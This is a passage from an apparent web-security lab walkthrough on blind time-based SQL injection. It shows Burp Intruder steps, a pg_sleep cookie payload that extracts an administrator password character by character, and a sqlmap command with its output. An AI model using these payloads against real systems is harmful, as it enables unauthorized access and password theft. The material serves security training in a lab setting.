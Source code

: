                         To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to <code>1</code>.
                    </li>
                    <li>
                        Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
                    </li>
                    <li>
                        Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".
                    </li>
                    <li>
                        Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
                    </li>
                    <li>
                        <p>
                            Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                    </li>
                    <li>
                        Launch the modified attack, review the results, and note the character at the second offset.
                    </li>
                    <li>
                        Continue this process testing offset 3, 4, and so on, until you have the whole password.
                    </li>
                    <li>
                        In the browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.
                    </li>
                </ol>
            </div>
        </div>

exploit

```bash
# sqlmap -u 'https://ac871fc81fb30105c0a02a33000900b6.web-security-academy.net/filter?category=Gifts' -v 3 --level=4 --cookie "TrackingId=s1ISxDhHj6xi5i3H" --technique=T --dbms=postgresql -D public -T users --dump
---
Parameter: TrackingId (Cookie)
    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: TrackingId=s1ISxDhHj6xi5i3H' AND 8771=(SELECT 8771 FROM PG_SLEEP(5))-- Tixo
    Vector: AND [RANDNUM]=(CASE WHEN ([INFERENCE]) THEN (SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME])) ELSE [RANDNUM] END)
---

[05:11:47] [PAYLOAD] s1ISxDhHj6xi5i3H' AND 5323=(CASE WHEN (ASCII(SUBSTRING((SELECT COALESCE(CAST(username AS VARCHAR(10000))::text,(CHR(32))) FROM public.users ORDER BY password OFFSET 2 LIMIT 1)::text FROM 14 FOR 1))>96) THEN (SELECT 5323 FROM PG_SLEEP(4)) ELSE 5323 END)-- AATS
```
